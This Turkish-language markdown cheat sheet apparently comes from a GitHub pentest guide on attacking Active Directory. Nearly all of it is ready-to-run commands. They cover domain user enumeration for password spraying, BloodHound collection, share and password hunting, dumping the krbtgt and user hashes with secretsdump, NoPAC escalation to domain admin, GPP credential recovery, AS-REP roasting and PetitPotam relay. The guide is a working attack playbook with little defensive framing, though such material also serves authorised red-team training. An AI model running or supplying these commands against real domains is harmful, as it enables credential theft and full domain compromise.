 # **Adım 1: AD Keşfi**
----------------------------------
#### Kullanıcı Keşfi
- **Nedir?**
  - Bu adımda, Active Directory'deki tüm kullanıcıları tespit edip, parola deneme saldırıları (password spray) veya diğer saldırılar için kullanılabilecek bir kullanıcı listesi oluşturmak istiyoruz.
- **Nasıl Yapılır?**

  - **Adım 1**
    - Tüm AD Kullanıcılarını Al

**Impacket**
```bash
impacket-getadusers -all -dc-ip <IP> 'domain/username:password'
```

**CME (CrackMapExec)**
```bash
crackmapexec smb X.X.X.X -u "username" -p "password" --users
```

  - **Adım 2**
    - E-postaları ayıklamak için AWK komutunu kullanın:
```bash
awk '{
  while (match($0, /[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,4}/)) {
    print substr($0, RSTART, RLENGTH)
    $0 = substr($0, RSTART + RLENGTH)
  }
}' your_file.txt
```

  - **Adım 3**
    - Belirli bir e-posta uzantısını ayıklayın:
```bash
awk '{gsub(/@<SIRKET_ADI>\.com/, ""); print}' your_file.txt > output_file.txt
```

**Erişim Belirleme**
```bash
cme smb x.x.x.x -u -p (--local-auth) (eğer yerel yönetici yetkisi varsa)
```

**Tüm Paylaşımlara Erişim Bulma**
```bash
cme smb x.x.x.x -u -p --shares
```

**Kullanıcınızın WinRM Yetkisini Belirleyin**
```bash
crackmapexec winrm X.X.X.X -u -p
```

**Oturumlar**
```bash
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --sessions
```

**Giriş Yapmış Kullanıcılar**
```bash
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --loggedon-users
```

**Diskler**
```bash
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --disks
```

**Gruplar**
```bash
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --groups
```

**Yerel Gruplar**
```bash
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --local-groups
```

**Parola Politikası**
```bash
cme smb <IP> -d <DOMAIN> -u <USER> -p '<PASS>' --pass-pol
```

#### BloodHound
- **Nedir?**
  - AD bilgilerini keşfederek potansiyel saldırı yolları sunar. Geçerli kimlik bilgileri gerektirir.
- **Nasıl Kullanılır?**
```bash
bloodhound-python -u user -p pass -ns X.X.X.X -d <domain> -c all
```

#### Dosya/Parola Avcılığı
- **Nedir?**
  - Ağ üzerinden uzaktan dosya aramak. Snaffler tercih edilir ancak masaüstü erişimi gerektirir.

**Nasıl Yapılır?**

**Manspider**
```bash
# Dosyalarda kelime bulma
manspider --threads 256 X.X.X.X/24 -u -p -c admin password

# Dosya isimlerini bulma
manspider --threads 256 X.X.X.X/24 -u -p -f admin password
```

**DonPAPI** (Yerel Yönetici Gerektirir)
```bash
DonPAPI.py domain/user:passw0rd@target
DonPAPI.py --hashes <LM>:<NT> domain/user@target
DonPAPI.py -k domain/user@target   # KERBEROS
DonPAPI.py -local_auth user@target # YEREL YÖNETİCİ
```

**Snaffler**
```bash
Seatbelt.exe -group=all -full > output.txt
Snaffler.exe -s -o snaffler_output.log -d test.local -c 10.10.10.1
```

----------------------------------
## Adım 2: Erişim Keşfi
----------------------------------

### Hash Dumping

**Kullanıcı Hash'i Alın**
```bash
secretsdump.py '<Domain>/<User>@<DC.IP>' -just-dc-user user1
```

**krbtgt Hash'i Alın (Golden Ticket)**
```bash
secretsdump.py '<Domain>/<User>@<DC.IP>' -just-dc-user krbtgt
```

**Yerel Yönetici ile Dumping**
```bash
secretsdump.py './<User>@<DC.IP>' -just-dc-user krbtgt
```

**DonPAPI ile Dumping**
```bash
DonPAPI.py domain/user:passw0rd@target
DonPAPI.py --hashes <LM>:<NT> domain/user@target
DonPAPI.py -k domain/user@target   # KERBEROS
DonPAPI.py -local_auth user@target # YEREL YÖNETİCİ
```

**NTLM Hashcat Modülü**
```bash
-m 1000
```

[Hashcat Rules Collection](https://github.com/n0kovo/hashcat-rules-collection)

----------------------------------
## Adım 3: AD Saldırıları
----------------------------------
#### NoPAC
- **Nedir?**
  - CVE-2021-42278 ve CVE-2021-42287 ile standart kullanıcıdan domain admin seviyesine çıkış sağlar.
- **Nasıl Yapılır?**
```bash
crackmapexec smb <Domain Controller> -u 'user' -p 'pass' -M nopac
```

#### GPP
- **Nedir?**
  - SYSVOL içinde eski politikalarla depolanan kimlik bilgilerini bulur.
- **Nasıl Yapılır?**
```bash
crackmapexec smb <Domain Controller> -u username -p pass -M gpp_autologin
crackmapexec smb X.X.X.X -u USER -p PASS -M gpp_password
impacket-Get-GPPPassword 'domain.local/USER:PASSWORD@X.X.X.X'
```

**Metasploit**
```bash
use auxiliary/scanner/smb/smb_enum_gpp
```

**Manuel**
```bash
smbclient \\\\DC-IP\\sysvol
mget *
crack - gpp-decrypt hash
```

#### ASREP Roasting
- **Nedir?**
  - Pre-authentication gerekmeyen kullanıcıların TGT'sini elde ederek offline olarak kırabilirsiniz.
- **Nasıl Yapılır?**
```bash
# CME
crackmapexec ldap <Domain Controller> -u 'user' -p 'pass' --asreproast outfile.txt

# Impacket
impacket-GetNPUsers 'domain/' -usersfile otherusers.txt -format hashcat -outputfile asrep.txt -dc-ip X.X.X.X

# Hashcat Modülü
18200
```

#### PetitPotam
- **Nedir?**
  - ADCS + NTLM Relay saldırısıdır. SMB Signing devre dışıysa ve ADCS Web Enrollment açıksa çalışır.
- **Nasıl Yapılır?**
```bash
# CME
crackmapexec smb <Domain Controller> -u '' -p '' -M petitpotam
```

### Daha Fazlası için...
Diğer saldırıların detayları bu dokümanın ilerleyen bölümlerinde bulunmaktadır. AD ortamında keşif, zafiyet istismarı ve hak yükseltme tekniklerini öğrenmek için lütfen tüm dokümanı inceleyin.
